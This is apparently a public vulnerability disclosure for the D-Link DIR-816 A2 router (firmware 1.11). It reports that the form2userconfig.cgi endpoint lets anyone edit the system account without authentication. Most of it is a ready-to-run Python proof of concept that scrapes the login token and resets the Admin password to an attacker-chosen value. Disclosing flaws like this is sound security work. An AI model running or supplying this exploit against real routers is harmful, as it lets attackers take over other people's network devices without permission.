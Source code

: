 # D-Link DIR-816 A2 Edit System Account Without Authentication

**Vender**：D-Link

**Firmware version**: 1.11

**Hardware version**: DIR-816 A2

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

Attacker can use a API URL "/goform/form2userconfig.cgi" to edit system account without authentication.

## POC

![](poc.png)

Change system user password:
```python
# !/usr/bin/env python2
# coding=utf-8
import requests


def get_token_id(target_ip):
    """

    :param target_ip: router ip address.
    :return: tokenid
    """
    url = "http://{}/dir_login.asp".format(target_ip)
    rsp = requests.get(url, allow_redirects=False)
    rsp_list = rsp.text.split()
    tokenid = None
    for i in range(len(rsp_list)):
        if 'name="tokenid"' in rsp_list[i]:
            tokenid = int(rsp_list[i + 1].split('=')[1][1:-1])
            break
    return tokenid


def send_from_request(target_ip, from_name, data):
    """

    :param target_ip: router ip address.
    :param from_name: from_name to request
    :param data: post data in json format.
    :return:
    """
    url = "http://{}/goform/{}".format(target_ip, from_name)
    rsp = requests.post(url, data=data, allow_redirects=False, timeout=1)
    return rsp.text


if __name__ == '__main__':
    target_ip = "192.168.0.1"
    token_id = get_token_id(target_ip)
    if token_id:
        username = "Admin"
        password = "zaq12wsx"
        from_name = "form2userconfig.cgi"
        from_data = {"username": username.encode('base64')[:-1], "newpass": password.encode('base64')[:-1], "tokenid": token_id}
        send_from_request(target_ip, from_name, from_data)

```
